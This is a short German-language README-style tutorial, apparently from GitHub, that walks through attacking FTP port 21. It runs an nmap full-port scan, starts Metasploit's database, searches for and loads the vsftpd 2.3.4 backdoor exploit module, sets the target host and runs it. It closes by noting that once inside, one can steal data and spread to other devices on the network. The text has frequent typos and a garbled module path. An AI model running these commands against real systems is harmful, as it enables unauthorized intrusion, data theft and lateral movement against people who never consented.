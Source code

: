 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt u zu sehen welched Portsoffen sind.

sudo nmap -p- -sV -O {IP-Adresse des Ziels}
  
 <h2>Port 21:</h2>

service postgresql start <br> service postgresql status 
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": msfconsole
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
  search vsftpd 2.3.4
  So sieht es aus wenn ein Exploit existiert
 <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png" alt="PStatus Serie" width="600" height="250">

loit/unix/ftp/vsftpd_234_backdoor
use exploit loit/unix/ftp/vsftpd_234_backdoor
  
show options

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png" alt="PStatus Serie" width="600" height="250">

Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
set RHOST {IP-Adresse des Ziels}
  
 Danach kontrolieren mit: show options
  
 Danah kann an einfah den Comand "exploit" absetzen
 
   <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png" alt="PStatus Serie" width="600" height="250">
  
Da man nun imSystem ist kann man mit Befehlen wie WHOAMI oder $HOME sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif aus Andere Geräte im Netzwerk erweitern. 

